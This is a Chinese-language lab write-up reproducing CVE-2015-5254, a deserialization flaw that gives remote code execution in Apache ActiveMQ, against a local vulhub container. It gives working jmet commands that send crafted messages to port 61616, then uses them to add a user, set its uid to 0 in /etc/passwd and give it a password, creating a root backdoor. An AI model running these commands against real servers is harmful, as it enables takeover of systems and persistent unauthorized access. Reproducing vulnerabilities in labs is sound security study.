 # 序

采用网上的vulhub的漏洞环境进行复现，直接通过docker部署即可。

# 漏洞介绍

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服
务、集群、Spring Framework等。

Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。
远程攻击者可借助特制的序列化的Java Message Service(JMS)ObjectMessage对象利用该漏洞执行任意代码
。

# 漏洞复现

## 环境搭建

```bash
docker-compose up -d
```

查看搭建好的docker

```bash
docker ps
```

使用浏览器直接访问activemq，查看是否部署完毕

`http://192.168.221.185:8161/admin/`

默认的用户名/密码为`admin/admin`

![1541062943217](F:\学习资料\github\vulhub-writeup\vulhub-writeup\cve-2015-5254\assets\1541062943217.png)

## 漏洞复现

这个漏洞靠的是攻击端口61616来实现，所以其实不需要打开web页面。

1. 构造可执行命令的序列化对象，可以通过ysoserial或jmet来实现。

   下载jmet

   ```bash
   git clone https://github.com/matthiaskaiser/jmet.git
   ```

   或者是直接下载已编译好的jar文件，我这里采用的是直接下载编译好的文件。

   ```
   wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
   ```

   下载完成后，需要在该jar所处的文件夹中新建一个external的文件夹（否则会报文件夹不存在的错误）。

   ```bash
   cd /jmet/
   mkdir external
   ```

   jmet的原理是利用ysoserial生成payload并发送（jmet的jar中自带了ysoserial）。

   执行命令

   ```
   java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/sucess" -Yp ROME 192.168.221.185 61616
   ```

   ![1541064135350](F:\学习资料\github\vulhub-writeup\vulhub-writeup\cve-2015-5254\assets\1541064135350.png)

   然后，我们可以去浏览器中查看这个队列的信息。

   `http://192.168.221.185:8161/admin/browse.jsp?JMSDestination=event`

   ![1541064180402](F:\学习资料\github\vulhub-writeup\vulhub-writeup\cve-2015-5254\assets\1541064180402.png)

   可以发现，队列信息是存在的，然后我们需要点击一下这个页面中的消息，命令方可触发。

   接下来，我们再前往漏洞系统中查看，是否真的创建成功一个文件了。

   ```bash
   docker ps
   
   root@heary-virtual-machine:/baji/vulhub/activemq/CVE-2015-5254# docker ps
   CONTAINER ID        IMAGE                    COMMAND                  CREATED             STATUS              PORTS                                              NAMES
   c5090663fb09        vulhub/activemq:5.11.1   "/bin/sh -c 'bin/act…"   5 seconds ago       Up 3 seconds        0.0.0.0:8161->8161/tcp, 0.0.0.0:61616->61616/tcp   cve20155254_activemq_1
   ```

   我们看到容器的CONTAINER ID是c5开头的。

   ```bash
   docker exec -it c5 /bin/bash
   ```

   成功进入容器的命令行以后，去查看一下刚刚创建的文件是否存在

   ```
   cd /tmp
   ls 
   ```

   ![1541064367530](F:\学习资料\github\vulhub-writeup\vulhub-writeup\cve-2015-5254\assets\1541064367530.png)

   可以看到，成功创建了success文件。说明反序列化命令执行成功。

   ## 创建用户

   

   根据上面的情况来看，既然可以执行命令，那么也可以创建用户，让我们试一下。

   执行jmet的命令

   ```bash
   java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "useradd -g root -s /bin/bash -u 10010 test" -Yp ROME 192.168.221.185 61616
   ```

   返回`http://192.168.221.185:8161/admin/browse.jsp?JMSDestination=event`页面，点击一下消息，触发它。

   然后，让我们再将passwd中的test的uid修改为0，使它拥有root权限

   ```bash
   java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "sed -i "s/test:x:10010/test:x:0/g" /etc/passwd" -Yp ROME 192.168.221.185 61616
   ```

   返回`http://192.168.221.185:8161/admin/browse.jsp?JMSDestination=event`页面，点击一下消息，触发它。

   接下来，让我们再为test用户设置一个密码

   ```bash
   java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "echo "test:123456" | chpasswd" -Yp ROME 192.168.221.185 61616
   ```

   返回`http://192.168.221.185:8161/admin/browse.jsp?JMSDestination=event`页面，点击一下消息，触发它。

   到此为止，一个权限为root，密码为123456的用户即创建完毕。我们可以使用ssh直接远程登陆进入操作系统，并且还是最高权限。

   